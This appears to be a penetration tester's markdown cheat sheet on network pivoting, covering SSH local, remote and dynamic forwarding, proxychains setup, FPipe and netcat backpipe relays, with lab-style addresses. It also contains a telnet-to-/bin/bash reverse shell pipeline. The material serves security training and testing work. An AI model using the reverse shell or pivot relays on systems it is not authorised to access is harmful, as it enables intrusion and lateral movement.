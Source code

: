 # Pivoting (Port Fun)
[TOC]
###### tags: `Security` `Pivoting`

# Reference
[NETSEC - Dynamic Port Forwarding(SSH)](https://netsec.ws/?p=278)
[HighOn.Coffee - SSH & Meterpreter Pivoting Techique](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/)

# Example
### nc <== telnet /bin/bash telnet ==> nc
```
Machine A:
nc -lk -n -v 7777

Machine B:
telnet A.A.A.A 7777 | /bin/bash | telnet B.B.B.B 7777

Machine C:
nc -lk -n -v 7777
```

### A:9000 <== ssh ==> C:80
```
Machine A:
ssh -i ~/.ssh/B.root.key -L9000:C.C.C.C:80 B.B.B.B
```
or
```
ssh B.B.B.B
<enter>
<enter>
~C
ssh> -L 9000:C.C.C.C:80
```

### local:1080 socks5 <== ssh 10.10.10.75 ==> any
```
ssh -D1080 10.10.10.75
netstat -alnp | grep LIST | grep 1080
vim /etc/proxychains.conf
: [ProxyList]
: # add proxy here ...
: # meanwile
: # defaults set to "tor"
: #socks4         127.0.0.1 9050
: # metasploit
: #socks4         127.0.0.1 1080
: # ssh
: socks5  127.0.0.1 1080
proxychains curl -k https://10.10.10.60
```

## temp
Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
```

Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe 

```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```

Is tunnelling possible? Send commands locally, remotely
```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```
